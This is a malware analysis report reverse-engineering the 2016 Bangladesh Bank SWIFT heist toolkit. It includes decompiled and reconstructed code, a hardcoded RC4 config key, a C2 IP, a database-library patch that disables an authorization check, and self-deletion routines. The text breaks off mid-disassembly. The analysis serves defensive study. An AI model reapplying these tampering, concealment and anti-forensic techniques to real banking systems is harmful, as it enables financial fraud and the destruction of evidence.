> **Note:** This Markdown version renders imperfectly on GitHub (tables, PlantUML diagrams, and code blocks can display messily depending on viewer). For the best reading experience, **view the original PDF** here: **[PDF link]**
>
> 
**Reverse Engineering** && **Malware Analysis Report**

*Bangladesh Bank 2016 Heist Toolkit*

 

**Sample: evtdiag.exe (primary) · evtsys.exe · nroff_b.exe · gpca.dat**

Classification: Nation-State Financial Malware / SWIFT Alliance Access Sabotage Toolkit

Analyst: Hazem Akkouh

Context: Part of the SENTRY Project.

# How to read this guide

The document is organized to be read front-to-back. Everything traces back to a specific address in a specific binary, and every claim is either accompanied by the Ghidra disassembly that proves it or explicitly marked as inference.

### Colour-coded callouts

**NOTE :** Neutral explanations, clarifications, and background context.

**EVIDENCE :** A direct piece of disassembly evidence, the bytes or the address that proves the claim above.

**WATCH OUT :** A place where prior public reporting is wrong, or a subtle detail that is easy to miss.

**FINDING :** A named finding, something Ghidra decompilation revealed that has operational or attribution significance.

### Before/after reverse-engineering blocks

For the most illustrative functions, the guide shows two views side by side:

**BEFORE:** the raw Ghidra decompiled output : what you actually see when you open the function. Variables are local_10, DAT_00419394, FUN_00408e00. Nothing is named.

**AFTER:** the same function rewritten with meaningful names based on what we discovered. This is what i build up in my head as i understand the code. Comments explain the variables.

The "BEFORE" text is exactly what Ghidra produces. The "AFTER" text is my reconstruction, the semantic layer we recovered through analysis.

### A note on numbering

Functions are referred to by their Ghidra addresses (e.g. **FUN_00409230**). These are stable across the samples with the SHA-256 hashes listed on the next page, so a reader with the same binary can jump straight to any function by address in their own Ghidra.

# 1. The Attack, in One Page

In February 2016, an attacker attempted to steal roughly 951 million USD from Bangladesh Bank's account at the Federal Reserve Bank of New York via the SWIFT Alliance Access financial messaging system. Approximately 81 million USD was successfully transferred; the rest was blocked or reversed. The technical toolkit used to hide the transfers from the victim's own operators is what this document analyzes.

The toolkit consists of three Windows executables plus one encrypted configuration file. All three binaries were compiled with Visual Studio 6.0 between 4 and 5 February 2016. Each binary has a distinct role, and they were designed to be installed together as a coordinated unit inside a SWIFT Alliance Access environment on a Windows host running an Oracle database backend.

The attacker's goal was not persistence. Compile stamps and a hardcoded date comparison in the code show that the malware was designed to self-destruct at 06:00 local time on 6 February 2016, giving a fixed operational window of under 48 hours from binary compilation to erasure. During that window, the tools:

- patched the Oracle database client library in memory to disable an authorization check;

- executed SQL statements against the Alliance Access database to delete and modify transaction records;

- rewrote the printed confirmation output so the victim's operators would see benign, doctored copies instead of the real fraudulent transactions;

- beaconed hourly to a hardcoded command-and-control server;

- at the end of the operational window, destroyed themselves, their config, their log, and their Windows service registration.

**NOTE :** This document focuses on what malware analysis of the binaries actually reveals, not on the payment fraud, the money-laundering trail, or the attribution debate. The scope is: what does each binary do, and how do we know?

## 

## 

## 

## 

## 1.1 The four artifacts

The complete artifact set:

| **Filename** | **SHA-256**                                         | **Size** | **Role**                                          |
|--------------|-----------------------------------------------------|----------|---------------------------------------------------|
| evtdiag.exe  | 4659DADB…F71B631737631BC3FDED2FE2AF250CEBA98959A    | 65,536 B | Main engine, SQL, patching, printing, C2, cleanup |
| evtsys.exe   | AE086350…F7D251C7422C7BC5CE74730EE8BAB8E6283        | 16,384 B | Secure-delete killer, destroys evtdiag.exe        |
| nroff_b.exe  | (SHA-1 70bf1659…f60e4eeb)                           | 24,576 B | Message demultiplexer, batch → per-message files  |
| gpca.dat     | B07B37F0…D702B12485D7BC8A9EF1475B54BFF513A18E68FEF7 | 33,848 B | RC4-encrypted config: filter list, paths, C2 IP   |

The RC4 key that decrypts gpca**.dat** is hardcoded in “evtdiag.exe” at **.data:0x40F020**:

4E 38 1F A7 7F 08 CC AA 0D 56 ED EF F9 ED 08 EF.

## 1.2 The three-binary architecture

The three executables form a coordinated attack surface. “**nroff_b.exe”** transforms Alliance Access's batched output into a per-message format that “**evtdiag.exe”** can consume; “**evtdiag.exe**” does the operational work; “**evtsys.exe**” destroys “**evtdiag.exe**” when the operation ends.



**How they got installed together:** the two binaries **“evtdiag”** and **“evtsys”** were placed in the same directory on the victim host. This is enforced by **evtdiag's** cleanup code, which calls **GetModuleFileNameA** to obtain its own path, strips the filename, and appends **evtsys.exe,** so **evtsys** must be in the same directory. See section 5.7 for the byte-level evidence.

Neither binary contains code to install itself as a service. The Windows service (named "**diagsysevt**") and the initial file placement were performed by an upstream loader outside our scope, probably the "**NESTEGG**" component described in the **DOJ** complaint.

## 1.3 The operational timeline

The compile timestamps, the SWIFT transaction dates, and the hardcoded kill-switch date together define theattack window ( **Attack window designed to be under 48 hours, malware self-destructs afterward** ):



The kill switch is not narrative background, it's a byte-level date comparison inside the main service loop that we'll walk through in section 5.4.

# 2. The Environment the Malware Assumes

Before diving into any function, understand the setup the code takes for granted. All three binaries hard-code the same paths, service names, and file conventions. Those are the anchor points every function refers to.

## 2.1 File paths

Every path is constructed at startup from a template string in “**evtdiag's” .data** section at offset **0x40F0A4:**

%c:\Users\\s\AppData\Local\\s

The three format specifiers are substituted with:

- %c : the root drive letter (variable, discovered at runtime)

- %s : the username, hardcoded as Administrator (at .data:**0x40F0C4**)

- %s : the sub-directory, hardcoded as Allians (at .data:**0x40F0D4**),note the misspelling; the legitimate SWIFT install directory is "Alliance"

**WATCH OUT :** The malware runs assuming administrative privileges and specifically as the Administrator account. The literal "Administrator" username is baked in this is not a generic account-name lookup. If the operator installed under any other username, this path construction would fail.

**Leaving us with this path as the base directory:** \[ROOT\]:\Users\Administrator\AppData\Local\Allians\\

## 2.2 Directory layout under “Allians”

Alliance Access stores SWIFT message state in subdirectories. The malware knows and touches four of them:

| **Subdir** | **Purpose**                                                                                                                                                                                           | **Where it appears in the code** |
|------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------|
| mcm\\      | Message store : primary FIN messages                                                                                                                                                                  | .data:0x40F068                   |
| mcp\\      | Message processing : post-processed                                                                                                                                                                   | .data:0x40F09C                   |
| mcs\\      | Message state                                                                                                                                                                                         | .data:0x40F08C                   |
| mcf\\      | Staging area for doctored PRT files, created by evtdiag at runtime, does not exist in a clean Alliance Access installation. mcf\Incoming\\ receives MT950 and MT515 files before doctor-then-destroy. | .data:0x40F0A0                   |

## 

## 

| **Directory**  | **Handler**                         | **File pattern** | **Condition**                    |
|----------------|-------------------------------------|------------------|----------------------------------|
| mcm\in         | FUN_004043E0 → FUN_004041C0         | 4-char filenames | Always                           |
| mcm\out        | FUN_004043E0 → FUN_004041C0         | 4-char filenames | Always                           |
| mcm\unk        | FUN_004043E0 → FUN_004041C0         | 4-char filenames | Always                           |
| mcf\Incoming\\ | FUN_00403EB0                        | 0016NNNN.prt     | Always (malware-created dir)     |
| mcp\nfzp       | FUN_00408260 → FUN_00406D80 (MT515) | *\_1-*           | Always                           |
| mcp\nfzf       | FUN_00408260 → FUN_00406D80 (MT515) | *\_1-*           | Always                           |
| mcp\fofp       | FUN_004053C0 → FUN_00404800 (MT950) | dash in filename | Only if credit balance state set |
| mcp\foff       | FUN_004053C0 → FUN_00404800 (MT950) | dash in filename | Only if debit balance state set  |
| mcs\in         | FUN_00408390                        | unknown          | Always                           |
| mcs\out        | FUN_00408390                        | unknown          | Always                           |

## 

**FINDING :** The directory map recovered from FUN_004010D0 is significantly broader than what BAE 2016 documents. Full confirmed map are stated above, BAE documented mcm\in and mcm\out only. This analysis adds 8 additional directories with their handlers, file patterns, and activation conditions.  
  
**FINDING** : mcp\fofp and mcp\foff are not scanned on every main loop iteration. FUN_00408390 checks two global state pairs (DAT_004195A8/AC for credit, DAT_004195B8/BC for debit) before dispatching to FUN_004053C0. These globals are set by FUN_00405A30 the balance accumulator, which replays the C2 message queue to compute the net balance change from all observed SWIFT transactions. The malware only cleans up balance-related directories after confirming balance manipulation occurred. This conditional gating means an investigator who captures only the main loop without the queue state will not observe fofp/foff processing.

## 2.3 Files the malware creates and uses

## 

| **File**         | **Purpose**                       | **Encryption**              |
|------------------|-----------------------------------|-----------------------------|
| gpca.dat         | Config file : RC4-encrypted       | RC4 (key at .data:0x40F020) |
| recas.dat        | Log file : plaintext              | None                        |
| %TEMP%\evchk.bat | Dropped self-delete batch         | None                        |
| \Incoming\\      | Demuxed per-message dir (nroff_b) | N/A                         |
| \Outgoing\\      | Demuxed per-message dir (nroff_b) | N/A                         |
| nroff.exe.bak    | Backup of legitimate nroff        | N/A                         |

## 

## 

## 

**WATCH OUT :** Oosthoek & Doerr (2021) claim recas.dat is "XOR encoded" at address 0x40BB42. That address is the RC4 PRGA function FUN_0040BB20, which has exactly one caller (**FUN_0040BBC0**, the gpca.dat decryptor) with XREF\[1\] confirmed. FUN_00401000 (the actual recas.dat writer) calls fopen(path, "at") and fprintf with format "\[%02d:%02d:%02d\] %s\r\n". no encoding. recas.dat is written in append-mode plaintext and is directly readable if recovered before secure-deletion. Confirmed log messages: ST-1, ST-2, ST-3, ST-100, REFID: \<x\>, OK : \<process\>, FAIL : \<process\>.

## 2.4 The Windows service

**evtdiag** registers itself as a Windows service. Two related names appear:

| **Name**       | **Where it's used**                             | **Meaning**                                    |
|----------------|-------------------------------------------------|------------------------------------------------|
| **diagsysevt** | .**data:0x40FD04**, DeleteService XREF          | Real Windows service registration key          |
| **evtsys.exe** | **.data:0x40FAB4**, StartServiceCtrlDispatcherA | Masquerade name used in the service dispatcher |

The service is registered under key "**diagsysevt"**, but at runtime the malware passes “**evtsys.exe”** as the **lpServiceName** argument to **StartServiceCtrlDispatcherA,** the exact name of a legitimate Windows binary in System32 (the Windows Event System service is served by **evtsvc.exe**, so the collision is close enough to fool a casual glance in Process Explorer).

## 2.5 The C2 server

One hardcoded **IP: 196.202.103.174** : port 80 (plaintext HTTP).

The IP is stored in gpca.dat (encrypted) and loaded at startup into the global DAT_00419394. It is not hardcoded in the evtdiag binary itself, without gpca.dat, the C2 IP cannot be extracted from the binary alone.

# 3. gpca.dat : Decrypting and Reading the Config

Every runtime behavior of **evtdiag** is gated by data loaded from **gpca.dat**. Understanding the config is a prerequisite for understanding the operational code.

## 3.1 Decrypting

The file is RC4-encrypted with a **16-byte** key hardcoded in **evtdiag** at **.data:0x40F020** :

4E 38 1F A7 7F 08 CC AA 0D 56 ED EF F9 ED 08 EF

Referenced by **FUN_004013b0** at offset **0x004013ee** (the config loader):

004013ee 68 20 f0 40 00 PUSH DAT_0040f020 = 4Eh 'N'

### 

**EVIDENCE :** The PUSH pushes the address of the 16 bytes onto the stack, the operand is **20 F0 40 00** which is little-endian for address **0x0040F020**. That address holds the key bytes shown above. No key derivation happens ,it is a literal constant embedded in the binary.

### 

### CyberChef recipe

To decrypt a captured **gpca.dat**: RC4 with the key **4e381fa77f08ccaa0d56edeff9ed08ef** (as hex, Latin-1 assumption), then regex \x00+ → newline to make it readable.



## 

## 

## 

## 3.2 The decrypted structure

After decryption the file contains, in order:

- A **3-byte magic header D0 C0 B0** (not documented in BAE or DOJ)

- About 112 SWIFT **transaction reference filter strings** : patterns like 900/000005850000-855500 and 900/000005860000-865520 represent the transaction IDs that will trigger **evtdiag's** SQL delete

- A datestamp **20160205**

- Absolute paths:

D:\Alliance\Access\database\bin\sqlplus.exe, D:\MESSAGE_PARTNER, D:\Alliance\Access\common\bin\Win32

- The **C2 IP :** 196.202.103.174

**FINDING :** The 112 filter strings are the **list of transactions the malware will actively hide**. Any SWIFT message whose reference matches one of these strings gets its database row deleted, its print output doctored, and its trail zeroed. These are the fraudulent transactions the attackers sent.

## 

## 3.3 How evtdiag uses the config

When **FUN_004013b0** successfully loads **gpca.dat**, it populates a set of global data structures. Later parsers walk incoming SWIFT messages and, for each candidate message, compare its fields against the loaded filter list. The comparison happens in helper functions that iterate an array of 64-byte string slots, the exact structure the filter list uses in memory. See section 5.7 for the sentinel-based message extractor and section 7.2 for how “**nroff_b**” applies the same filters on its side.

# 4. evtdiag.exe : Overview and CLI

This is the operationally significant binary. If a single one of the three had to be understood in isolation to grasp the attack, it is this one. Everything else is support.

## 4.1 Binary characteristics

| **Property**      | **Value**                    |
|-------------------|------------------------------|
| File size         | 65,536 bytes (64 KB)         |
| Compiler          | Visual Studio 6.0            |
| Compile timestamp | Fri Feb 05 2016 11:46:20 UTC |
| Architecture      | PE32 x86                     |
| Subsystem         | Console                      |
| Function count    | 200 (Ghidra auto-analysis)   |

## 4.2 The command-line interface

**evtdiag** is not just a service. It has a rich operator CLI dispatched from **FUN_00409db0** at **.text:0x00409db0**. Twelve commands total, each mapped to a specific flag or subcommand:

| **CLI form**                      | **Handler function**        | **Purpose**                                                                      |
|-----------------------------------|-----------------------------|----------------------------------------------------------------------------------|
| evtdiag.exe -svc                  | FUN_00409db0 branch         | Register as Windows service (uses evtsys.exe as service dispatcher name)         |
| evtdiag.exe -i                    | FUN_004023b0(1,…)           | Patch install : writes 0x90 0x90 into liboradb.dll. Prints "PI (found, patched)" |
| evtdiag.exe -u                    | FUN_004023b0(0,…)           | Patch uninstall : restores 0x75 0x04. Prints "PU (found, unpatched)"             |
| evtdiag.exe -t \<data\>           | FUN_00408f40                | Manual C2 beacon : GET /al?\<data\>                                              |
| evtdiag.exe -s \<path\>           | FUN_004097e0                | Stage rnoff.exe (swap-in prep)                                                   |
| evtdiag.exe -r \<path\>           | FUN_00409920                | Swap nroff.exe → nroff.exe.bak, rnoff.exe → nroff.exe                            |
| evtdiag.exe -g \<arg\>            | FUN_00409db0 branch         | Toggle open/close a monitored file                                               |
| evtdiag.exe -p resume \<printer\> | FUN_00409530 → FUN_00409460 | Resume printer job (SetPrinterA cmd=2)                                           |
| evtdiag.exe -p pause \<printer\>  | FUN_00409550 → FUN_00409460 | Pause printer job (SetPrinterA cmd=1)                                            |
| evtdiag.exe -p on \<printer\>     | FUN_00409570 → FUN_00409460 | Printer "on" (SetPrinterA cmd=4, flags=0)                                        |
| evtdiag.exe -p off \<printer\>    | FUN_00409590 → FUN_00409460 | Printer "off" (SetPrinterA cmd=4, flags=0x80)                                    |
| evtdiag.exe -p queue \<printer\>  | FUN_004095b0                | Enumerate print jobs and print details                                           |

**FINDING :** Prior public reporting mentions only that evtdiag registers as a service. The **12-command CLI ,** including operator-triggered patch install/uninstall, on-demand C2 beacon, printer state control, and manual nroff-swap, is not documented in BAE 2016 or DOJ 2018 at this level of detail.

# 5. Inside evtdiag : Function-by-Function

This chapter is the core of the guide. For each significant function we cover: what Ghidra shows you, what it actually does, and for the most illustrative ones, a side-by-side "before/after" reverse-engineering view.  
**A note on context**: the findings documented in this chapter go beyond what any prior public analysis of this toolkit has documented,more functions named, more mechanisms explained, more cross-binary connections drawn. That is worth stating clearly, but it comes with an equally clear caveat. This analysis was conducted with the assistance of modern tooling and, critically, in a different era than the original researchers. The analysts who first worked through this toolkit, BAE Systems, Symantec, the DOJ forensic teams did so without the benefit of AI-assisted reasoning, often under legal and disclosure constraints that limited what they could publish, and in some cases under active incident response pressure where completeness is traded for speed. What they produced under those conditions is, frankly, extraordinary. Reading raw Ghidra decompilation where every variable is named local_10 and every function is named FUN_00402580, where the compiler has collapsed your carefully written C into a sequence of MOV and XOR instructions that carry no trace of the original intent, and making accurate sense of it, that is a skill set that will take years to achieve. The fact that prior public reports did not document all thirty findings here does not mean those analysts missed them. It may mean they chose not to publish, were constrained by legal process, or simply had more urgent things to do than name every CLI subcommand of a binary they had already classified. The goal of this chapter is to build understanding, not to claim precedence.

## 5.1 The service main loop, FUN_00409af0

This is the function that runs after the Windows service starts. It is called from **FUN_00409db0** (the CLI dispatcher's **-svc** branch) via the intermediate handler at **LAB_00409d60**. It orchestrates the entire attack: init, wait for user login, patch, spawn background thread, loop, cleanup.

**FINDING :** FUN_00408260 uses the wildcard pattern \*\_1-\* when scanning mcp\nfzp and mcp\nfzf. This means evtdiag only processes the first message in each SWIFT sequence (files containing \_1- in the name). All subsequent messages in the same sequence are bulk-deleted via FUN_00401780 using the wildcard %d\_\*-\*, wiped without individual processing. The malware targets sequence-first messages because they contain the transaction reference fields needed for the SQL DELETE operation. Subsequent messages are collateral cleanup.





### BEFORE : raw Ghidra decompilation

undefined4 FUN_00409af0(void)

{

bool bVar1;

int iVar2;

...

FUN_004010d0();

InitializeCriticalSection((LPCRITICAL_SECTION)&DAT_004195d0);

iVar2 = FUN_004013b0(&DAT_00410d40,(int \*)&DAT_00411060);

if (iVar2 != 0) {

FUN_00402e80(s_ST-0-E_0040fd30);

return 0;

}

FUN_00402e80(&DAT_0040fd28); // "ST-1"

FUN_00408b50();

FUN_00402e80(&DAT_0040fd20); // "ST-2"

\_makepath(&DAT_0041949c,(char \*)0x0,&DAT_00419290,s_rnoff_0040fcac,&DAT_0040fcbc);

while (bVar1 = FUN_00408e00(&DAT_00419068), !bVar1) {

Sleep(5000);

}

DAT_004195c8 = 1;

if (DAT_004195c9 != '\0') {

Sleep(1000);

FUN_004023b0(1,&local_4,(int \*)&stack0xfffffff8,0);

}

FUN_00402e80(&DAT_0040fd18);

if (DAT_00419394 != '\0') {

CreateThread(0,0,(LPTHREAD_START_ROUTINE)&LAB_00409130,0,0,0);

}

bVar1 = false;

do {

if (DAT_004195cc != 0) goto LAB_00409c34;

FUN_004043e0();

FUN_004041b0();

FUN_00408b50();

FUN_00408390();

iVar2 = FUN_00409230(); // ← kill switch check

if ((char)iVar2 != '\0') {

bVar1 = true;

goto LAB_00409c34;

}

Sleep(1000);

} while(true);

LAB_00409c34:

FUN_00402e80(s_ST-100_0040fd10); // "ST-100"

Sleep(10000);

DAT_004195cc = 1;

Sleep(3000);

DeleteCriticalSection(...);

if (bVar1) {

FUN_00409920(&DAT_00419290); // swap nroff

FUN_00401870(&DAT_0040ff08);

FUN_00401640(&DAT_00410d40, ...); // secure-delete gpca.dat

FUN_00401640(&DAT_00410e44, ...); // secure-delete recas.dat

FUN_004092b0(s_diagsysevt_0040fd04); // DeleteService

FUN_00409300((HMODULE)0x0); // spawn evtsys, ExitProcess

}

return 0;

}

### AFTER : reconstructed with real names

DWORD ServiceMain(void)

{

bool killSwitchTripped = false;

int loadStatus;

InitializeGpcaState(); // FUN_004010d0

InitializeCriticalSection(&loggerLock); // DAT_004195d0

// Load & decrypt gpca.dat into globals

loadStatus = LoadConfig(configPath, filterList); // FUN_004013b0

if (loadStatus != 0) {

Log("ST-0-E"); // config-load failure

return 0;

}

Log("ST-1"); // init OK

SyncOracleState(); // FUN_00408b50

Log("ST-2"); // ready for main phase

// Build the rnoff.exe path (for later swap-in)

MakePath(rnoffPath, NULL, allianceDir, "rnoff", "exe");

// Poll Oracle JRNL\_%s table for "Login" record every 5 seconds

while (!IsSwiftLoggedIn(jrnlHandle)) // FUN_00408e00

Sleep(5000);

isServiceStarted = 1; // DAT_004195c8

// Only if running as a real service (not a CLI invocation),

// install the liboradb.dll memory patch

if (isRunningAsService) { // DAT_004195c9

Sleep(1000);

InstallLiboradbPatch(1, &result, &err, 0); // FUN_004023b0

}

Log("ST-3"); // patched, ready

// Spawn C2 beacon thread (if C2 IP is set in config)

if (c2IpAddress != 0) { // DAT_00419394

CreateThread(0, 0, C2BeaconThreadProc, 0, 0, 0); // LAB_00409130

}

// ---- Main service loop, 1-second cadence ----

for (;;) {

if (shutdownRequested) // DAT_004195cc

break;

CleanupPrtDirectories(); // FUN_004043e0

Housekeep(); // FUN_004041b0

SyncOracleState(); // FUN_00408b50

ProcessSwiftFiles(); // FUN_00408390

if (IsKillSwitchTripped()) { // FUN_00409230

killSwitchTripped = true;

break;

}

Sleep(1000);

}

// ---- Shutdown / cleanup chain ----

Log("ST-100");

Sleep(10000);

shutdownRequested = 1;

Sleep(3000);

DeleteCriticalSection(&loggerLock);

if (killSwitchTripped) {

SwapNroffBinaries(allianceDir); // FUN_00409920

FinalizeCleanup(finalizeCtx); // FUN_00401870

SecureDelete(gpcaDatPath, ...); // FUN_00401640

SecureDelete(recasDatPath, ...); // FUN_00401640

UnregisterService("diagsysevt"); // FUN_004092b0

SpawnEvtsysAndExit(NULL); // FUN_00409300

// ← process is dead by this line

}

return 0;

}

**NOTE :** Variable name mapping:

DAT_00410d40 → path to gpca.dat (config file)  
DAT_00410e44 → path to recas.dat (log file)  
DAT_004195c9 → service-mode flag (1 = running as SCM service, not CLI)  
DAT_004195cc → shutdown flag (set by service control handler on STOP)  
DAT_00419394 → C2 IP address (loaded from gpca.dat)  
DAT_00419068 → Oracle JRNL query handle for login-state polling

#### 

#### Novel observation : service-mode gating

**FINDING :** The liboradb.dll patch install is gated on **DAT_004195c9** being non-zero, which is only set when the binary is invoked with -**svc** AND the SCM successfully registers the service handler. If you run **evtdiag.exe** directly from a shell without **-svc**, the patch is skipped. This means the CLI commands (-i, -u, -t, -p, -g, -r, -s) do not automatically patch the DLL, only the fully-installed service path does. This gating is not documented in prior public writeups.

#### 

#### 

#### Novel observation : the ST-N state machine

**FINDING :** The four log strings **ST-0-E, ST-1, ST-2, ST-3, ST-100** form an internal state machine tracked in **recas.dat:**

ST-0-E → config load failed, immediate exit

ST-1 → config loaded, initial sync done

ST-2 → ready to wait for login

ST-3 → patch installed, main loop running

ST-100 → shutdown initiated (kill switch or STOP)

Nobody has enumerated these in prior public analysis. They give operators (and analysts) a lifecycle map.

## 5.2 The kill switch : FUN_00409230

This is the single most damning finding in the binary, a hardcoded date comparison that says the operation must be over by 06:00 on 6 February 2016.

### BEFORE : raw Ghidra

int FUN_00409230(void)

{

undefined2 local_10; // ← wYear

undefined4 local_e; // ← wMonth + wDayOfWeek

undefined4 local_a; // ← wDay + wHour

undefined4 local_6; // ← wMinute + wSecond

undefined2 local_2; // ← wMilliseconds

GetLocalTime((LPSYSTEMTIME)&local_10);

if (local_10 \> 0x7e0) return 1;

if (local_10 \< 0x7e0) return 0;

if (local_e_wMonth \> 0x2) return 1;

if (local_e_wMonth \< 0x2) return 0;

if (local_a_wDay \> 0x6) return 1;

if (local_a_wDay \< 0x6) return 0;

return (wHour \>= 0x6) ? 1 : 0;

}

### 

### 

### 

### AFTER : reconstructed

// Returns 1 if the current local time is on or after 2016-02-06 06:00.

// Called every second from the service main loop.

int IsKillSwitchTripped(void)

{

SYSTEMTIME now;

GetLocalTime(&now);

// Year (offset 0)

if (now.wYear \> 2016) return 1; // past deadline year

if (now.wYear \< 2016) return 0; // before deadline year

// Same year — check month (offset 2 → skipping wDayOfWeek at offset 4)

if (now.wMonth \> 2) return 1; // past February

if (now.wMonth \< 2) return 0; // before February

// Same month — check day

if (now.wDay \> 6) return 1; // past the 6th

if (now.wDay \< 6) return 0; // before the 6th

// Same day — check hour

return (now.wHour \>= 6) ? 1 : 0; // on/after 06:00 → trip

}

### The evidence at byte level

00409258 66 8b 44 24 00 MOV AX, word ptr \[ESP\] ; wYear

0040925d 66 3d e0 07 CMP AX, 0x7E0 ; 0x7E0 = 2016

00409261 76 06 JBE LAB_00409269

00409263 b0 01 MOV AL, 0x1 ; return 1

00409265 83 c4 10 ADD ESP, 0x10

00409268 c3 RET

LAB_00409269:

00409269 73 06 JNC LAB_00409271 ; if equal, check month

0040926b 32 c0 XOR AL, AL ; else return 0

0040926d 83 c4 10 ADD ESP, 0x10

00409270 c3 RET

LAB_00409271:

